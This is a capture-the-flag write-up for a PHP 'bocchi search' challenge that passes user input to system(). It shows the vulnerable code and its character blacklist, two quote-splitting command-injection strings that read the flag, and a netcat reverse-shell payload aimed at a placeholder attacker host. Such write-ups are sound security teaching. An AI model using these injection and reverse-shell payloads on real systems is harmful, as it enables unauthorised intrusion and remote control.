 # Bocchi Search Tool
A tool help you find bocchi in json !
http://ctf.adl.tw:12001/

You input a json like string, and the program finds the "bocchi" member and prints its value.
# foot note
- anything on a shell command contained in pairs of`` gets executed as commands!!!
# solution
blacklist(php)
```php
$blacklist = ['|', '&', ';', '>', '<', "\n", '?', '*', '$', '\\', 'cat', 'flag'];
```

source code(php): 
```php
system("echo '" . $_POST['json'] . "'| jq .bocchi");
```

- attack string ver 1: '`tac  fl''ag` #
```php
system("echo '" . '`tac  fl''ag` # . "'| jq .bocchi");
```
which equals:
```bash
echo ''`tac  fl''ag` # . "'| jq .bocchi
```

- attack string ver 2: '`c''at  fl''ag` #
```php
system("echo '" .'`c''at  fl''ag` # . "'| jq .bocchi");
```
# Reverse shell
it turns out that we can reverse shell in 12001(bocchi search tool)
like this:
```ps
nc  <attacker ip addr> <port> -e /bin/sh
```
payload
```ps
'`nc  <attacker ip addr> <port> -e /bin/sh`#
```
on the attacker's pc:
```ps
nc localhost <port> 
```
